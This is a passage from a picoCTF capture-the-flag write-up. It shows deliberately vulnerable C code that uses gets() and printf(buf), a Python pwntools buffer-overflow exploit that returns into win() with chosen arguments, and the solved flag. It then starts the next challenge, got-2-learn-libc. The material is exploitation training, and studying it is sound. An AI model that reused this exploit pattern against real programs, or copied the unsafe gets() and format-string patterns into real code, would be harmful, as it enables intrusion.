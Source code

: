 ```c
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Due to the calling structure of x86, we structured our shellcode to call the `win()` function, followed by the address of `return` in `main`, followed by the arguments required to print the flag.

Note: We could fill the return address with anything, but by using the address of `exit()` we are allowing the binary properly exit, preventing a segmentation fault.

```python
def exploit(r):
    payload = ''
    payload += "A"*112 # offset to EIP
    payload += p32(0x080485cb)    #addr of win()
    payload += p32(0x080486cf)    #ret to exit()
    payload += p32(0xDEADBEEF)    #arg1 of win()
    payload += p32(0xDEADC0DE)    #arg2 of win()

    r.sendlineafter(': \n',payload)
    r.interactive()
    return
```
```bash
picoCTF{addr3ss3s_ar3_3asy1b78b0d8}
```

## got-2-learn-libc
After reading the source code we see that `vuln()` has a simple buffer overflow.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

char useful_string[16] = "/bin/sh"; /* Maybe this can be used to spawn a shell? */


void vuln(){
  char buf[BUFSIZE];
  puts("Enter a string:");
  gets(buf);
```
